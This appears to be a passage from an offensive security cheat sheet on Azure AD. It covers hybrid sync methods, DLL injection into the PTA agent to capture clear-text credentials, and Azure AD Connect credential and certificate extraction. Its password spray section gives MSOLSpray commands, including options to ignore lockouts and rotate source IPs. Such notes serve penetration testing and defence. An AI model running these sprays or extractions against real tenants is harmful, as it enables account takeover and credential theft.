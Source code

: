 * Password Hash Syncronization (PHS)
    * Passwords from on-premise AD are sent to the cloud
    * Use replication via a service account created by AD Connect
* Pass Through Authentication (PTA)
    * Possible to perform DLL injection into the PTA agent and intercept authentication requests: credentials in clear-text
* Connect Windows Server AD to Azure AD using Federation Server (ADFS)
    * Dir-Sync : Handled by on-premise Windows Server AD, sync username/password


* Azure AD Joined : https://pbs.twimg.com/media/EQZv62NWAAEQ8wE?format=jpg&name=large
* Workplace Joined : https://pbs.twimg.com/media/EQZv7UHXsAArdhn?format=jpg&name=large
* Hybrid Joined : https://pbs.twimg.com/media/EQZv77jXkAAC4LK?format=jpg&name=large
* Workplace joined on AADJ or Hybrid : https://pbs.twimg.com/media/EQZv8qBX0AAMWuR?format=jpg&name=large

### Password Spray

> Default lockout policy of 10 failed attempts, locking out an account for 60 seconds

```powershell
git clone https://github.com/dafthack/MSOLSpray
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!

# UserList  - UserList file filled with usernames one-per-line in the format "user@domain.com"
# Password  - A single password that will be used to perform the password spray.
# OutFile   - A file to output valid results to.
# Force     - Forces the spray to continue and not stop when multiple account lockouts are detected.
# URL       - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
```

### Convert GUID to SID

The user's AAD id is translated to SID by concatenating `"S-1–12–1-"` to the decimal representation of each section of the AAD Id.

```powershell
GUID: [base16(a1)]-[base16(a2)]-[ base16(a3)]-[base16(a4)]
SID: S-1–12–1-[base10(a1)]-[ base10(a2)]-[ base10(a3)]-[ base10(a4)]
```

For example, the representation of `6aa89ecb-1f8f-4d92–810d-b0dce30b6c82` is `S-1–12–1–1789435595–1301421967–3702525313–2188119011`

## Azure AD Connect 

Check if Azure AD Connect is installed : `Get-ADSyncConnector`

* For **PHS**, we can extract the credentials
* For **PTA**, we can install the agent
* For **Federation**, we can extract the certificate from ADFS server using DA
